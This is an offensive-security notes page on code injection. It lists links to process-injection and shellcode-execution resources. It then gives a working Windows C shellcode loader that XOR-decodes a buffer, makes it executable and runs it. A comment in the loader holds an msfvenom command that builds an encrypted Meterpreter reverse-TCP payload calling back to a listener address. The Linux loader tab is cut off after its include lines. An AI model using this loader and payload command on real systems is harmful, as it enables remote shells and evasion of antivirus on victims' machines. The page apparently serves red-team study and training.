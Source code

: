 # Code Injection

- [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
- [https://blog.xpnsec.com/weird-ways-to-execute-dotnet/](https://blog.xpnsec.com/weird-ways-to-execute-dotnet/)
- [https://gitlab.com/users/ORCA666/projects](https://gitlab.com/users/ORCA666/projects)
- [https://github.com/itaymigdal/awesome-injection](https://github.com/itaymigdal/awesome-injection)

{% embed url="https://github.com/itaymigdal/awesome-injection" caption="Centralized resource for listing and organizing known injection techniques and POCs" %}




## Shellcode as Function

- [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
- [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
- [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
- [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)
- [https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1)

{% tabs %}
{% tab title="Windows" %}
{% code title="loader.c" %}
```c
#include <windows.h>
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw -o met.bin --encrypt xor --encrypt-key a
// xxd -i met.bin > shellcode.h
#include "shellcode.h"

int main() {
    DWORD lpThreadId = 0;
    DWORD flOldProtect = 0;
    int bufsize = sizeof(buf);
    LPVOID f = VirtualAlloc(NULL, bufsize, MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE);
    for (int i = 0; i < (int)bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
    memcpy(f, buf, bufsize);
    VirtualProtect(f, bufsize, PAGE_EXECUTE_READ, &flOldProtect);
    ((void(*)())f)();
    //VirtualFree(f, 0, MEM_RELEASE);
    WaitForSingleObject((HANDLE)-1, -1);
    return 0;
}
```
{% endcode %}
{% endtab %}
{% tab title="Linux" %}
{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
```